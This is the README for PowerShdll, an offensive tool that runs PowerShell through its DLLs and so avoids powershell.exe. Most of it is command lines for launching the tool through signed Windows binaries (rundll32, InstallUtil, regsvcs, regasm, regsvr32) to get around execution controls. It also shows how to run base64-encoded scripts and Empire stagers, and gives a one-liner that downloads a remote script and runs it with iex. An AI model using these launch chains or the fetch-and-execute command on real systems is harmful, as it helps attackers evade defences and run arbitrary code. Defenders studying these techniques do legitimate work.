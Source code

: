 # PowerShdll
Run PowerShell with dlls only.

Does not require access to powershell.exe as it uses powershell automation dlls.

PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe or as a standalone executable.

## dll mode:

### Rundll32:
```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -h      Display this message
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```
### Alternatives (Credit to SubTee for these techniques):

```
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll
4. 
    regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer
    regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -h      Display this message
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console (Default)
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
 * .Net v3.5 for dll mode.
 * .Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

